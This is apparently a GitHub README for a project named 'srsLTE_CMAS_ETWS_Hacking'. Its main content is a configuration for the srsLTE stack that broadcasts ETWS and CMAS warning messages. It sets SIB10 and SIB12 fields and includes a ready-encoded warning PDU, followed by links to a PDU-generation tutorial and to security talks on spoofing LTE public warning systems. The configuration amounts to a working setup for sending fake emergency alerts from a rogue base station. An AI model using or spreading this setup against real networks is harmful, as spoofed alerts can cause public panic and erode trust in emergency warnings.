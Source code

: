 # srsLTE_CMAS_ETWS_Hacking
## INSTALLATION :


## IMPORTANT CONFIG :  
https://github.com/learning-lte/srsLTE_cmas_etws/commit/88775bb3bd133344a1b6f2248510a68b0ea9f547  

sib10 =  
{  
    message_identifier = 0x1104;  
    serial_number = 0x3000;  
    warning_type = "0x580";  
}   


sib12 =  
{  
    message_identifier = 0x1112;  
    serial_number = 0x3000;  
    data_coding_scheme = 01;  
    warning_msg_segment_type = "lastSegment";  
    warning_msg_segment_num = 0;  
    warning_msg_segment_r9 = "01C576597E2EBBC7F950A8D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D1000A";   
 };  
 
## GENERATING THIS PDU : 01C576597E2EBBC7F950A8D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D1000A
* Follow this tutorial : https://www.sharetechnote.com/html/Handbook_LTE_CMAS.html
* Tools for generating PDU : http://smstools3.kekekasvi.com/topic.php?id=288


## DOCUMENTATIONS
* https://www.youtube.com/watch?v=EP1PnzMUaCg
* https://hackmd.io/@AIS3-official/Critical-Infra-day5#spoofing-wireless-emergency-alerts-attack
* https://www.leg.ba/public-warning-systems-in-mobile-networks/
* https://conference.hitb.org/hitbsecconf2019ams/materials/HAXPO%20D1%20-%20Hacking%20LTE%20Public%20Warning%20Systems%20-%20Weiguang%20Li.pdf

